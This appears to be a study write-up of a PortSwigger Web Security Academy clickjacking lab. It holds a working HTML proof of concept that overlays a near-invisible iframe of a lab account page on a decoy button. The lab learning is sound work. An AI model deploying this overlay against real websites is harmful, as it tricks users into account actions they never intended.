# Clickjacking

- https://portswigger.net/web-security/clickjacking
- https://portswigger.net/burp/documentation/desktop/tools/clickbandit

Burp clickbandit tools is great for POCs.

## Basic clickjacking with CSRF token protection

Because of no `X-Frame-Options` or `Content-Security-Policy` with `frame-ancestors` headers we can perform Clickjacking attack, by creating a custom page with clickable content and align it with a target, vulnerable website, using styles, to perform an action on click.

```
<head>
	<style>
		#target_website {
			position:relative;
			width:1000px;
			height:1000px;
			opacity: 0.0001;
			z-index:2;
            top: -500;
            left: -50;
        }
		#decoy_website {
            position:absolute;
            width:300px;
            height:400px;
            z-index:1;
        }
        #click {
            padding: 5;
            width: 100;
        }
	</style>
</head>
<body>
    <div id="decoy_website">
        <button type="button" id="click">
            Click
        </button>
    </div>
    <iframe 
        id="target_website" 
        src="https://0ad900410406b484811f3485002b0049.web-security-academy.net/my-account"
    ></iframe>
</body>
```

This page using `iframe` along with `position`, `left` and `right` styles positions the target page content on our website, allowing us to place the target action button whenever on the page we want. Then using `z-index` and `opacity` we can make this invisible and aligned on top of our decoy page.
